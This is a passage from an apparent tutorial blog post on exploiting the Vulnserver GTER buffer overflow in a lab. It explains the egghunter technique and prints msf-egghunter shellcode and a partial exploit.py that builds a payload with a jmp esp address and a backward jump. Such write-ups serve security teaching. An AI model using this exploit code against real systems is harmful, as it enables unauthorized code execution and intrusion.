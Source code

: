 ``` python
```

And check the result:

<div class="imgblock">

![Jumped back](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331144/blog/vulnserver-gter/jmp4_ebtqur.gif)

</div>

Great\! We were able to jump to the start of our buffer. But what now?
On 147 bytes, it’s hard to include a working reverse shell. However,
there’s a trick we can use that will have to do with eggs.

## Egghunter

An `egghunter` is a little shellcode (commonly around 32 bytes) that can
be injected on our payload. It’s a special shellcode because its only
mission is to search the entire process memory for the location of the
desired code, and once it finds it, it will execute it.

But how will it know what to execute? Well, it will look for a tag that
will be prepended to our shellcode, also called the `egg`, and once it
finds that `egg`, it will execute any code that follows.

First, we need to create our egghunter shellcode:

**Creating egghunter.**

``` console
$ msf-egghunter -e w00t -f python -v EGGHUNTER
EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
```

Note that the configured egg is `w00t`. However, to make the searching
more effective, that egghunter was designed to look for a double
instance of that egg, which means `w00tw00t`. This will guarantee that
the executed code is the one we injected and will avoid false positives.

Let’s update our exploit:

**exploit.py.**

``` python
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

```